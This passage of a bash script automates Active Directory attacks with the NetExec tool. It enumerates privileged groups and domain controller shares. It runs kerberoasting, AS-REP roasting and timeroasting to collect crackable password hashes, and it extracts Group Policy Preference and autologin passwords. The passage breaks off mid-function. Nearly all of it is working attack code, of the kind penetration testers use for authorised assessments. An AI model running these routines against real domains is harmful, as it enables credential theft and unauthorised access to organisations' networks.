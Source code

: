 ```bash
	echo -e $YELLOW"\nUsers who are Backup Operators : \n\n$PURPLE$backup_operators\n$NOCOLOR" | tee -a privileged_users.txt
	echo -e $YELLOW"\nUsers who are Event Log Readers : \n\n$PURPLE$event_log_readers\n$NOCOLOR" | tee -a privileged_users.txt
	echo -e $YELLOW"\nUsers who are Dns Admins : \n\n$PURPLE$dns_admins\n$NOCOLOR" | tee -a privileged_users.txt
	echo -e $YELLOW"\nUsers who are Hyper-V Admins : \n\n$PURPLE$hyperv_admins\n$NOCOLOR" | tee -a privileged_users.txt
	echo -e $YELLOW"\nUsers who are Print Operators : \n\n$PURPLE$print_operators\n$NOCOLOR" | tee -a privileged_users.txt
	echo -e $YELLOW"\nUsers who are Server Operators : \n\n$PURPLE$server_operators\n$NOCOLOR" | tee -a privileged_users.txt
	echo -e $YELLOW"\nUsers who are Account Operators : \n\n$PURPLE$account_operators\n$NOCOLOR" | tee -a privileged_users.txt
}

function get_DC_shares {
	if [ $auth_protocol == "KERBEROS" ]
	then
		nxc smb $dc_hostname -u $user -p $password -k --shares | tee dc_shares.txt
	else
		nxc smb $dc_ip -u $user -p $password --shares | tee dc_shares.txt
	fi
	result
}

function kerberoasting {
	if [ $auth_protocol == "KERBEROS" ]
	then
		nxc ldap $dc_hostname -u $user -p $password -k --kdcHost $dc_hostname --kerberoasting SPNs.txt
	else
		nxc ldap $dc_ip -u $user -p $password --kdcHost $dc_hostname --kerberoasting SPNs.txt
	fi
	result
	echo -e "$GREEN Kerberoastable users hashes collected in SPNs.txt if vulnerable.$NOCOLOR"
}

function asrep_roasting {
	if [ $auth_protocol == "KERBEROS" ]
	then
		nxc ldap $dc_hostname -u ad_users.txt -p '' -k --kdcHost $dc_hostname --asreproast ASREP.txt
	else
		nxc ldap $dc_ip -u ad_users.txt -p '' --kdcHost $dc_hostname --asreproast ASREP.txt
	fi
	result
	echo -e "$GREEN AS-Reproastable users hashes collected in ASREP.txt if vulnerable.$NOCOLOR"
}

function timeroasting {
	nxc smb $dc_ip -M timeroast | grep 'sntp-ms' | cut -f2 -d":" | tee timeroast.hashes
	result
	echo -e "$GREEN Timeroast hashes collected in timeroast.hashes if vulnerable.$NOCOLOR"
}

function get_GPP_passwords {
	if [ $auth_protocol == "KERBEROS" ]
	then 
		nxc smb $dc_hostname -u $user -p $password -k -M gpp_password
		nxc smb $dc_hostname -u $user -p $password -k -M gpp_autologin
	else
		nxc smb $dc_ip -u $user -p $password -M gpp_password
```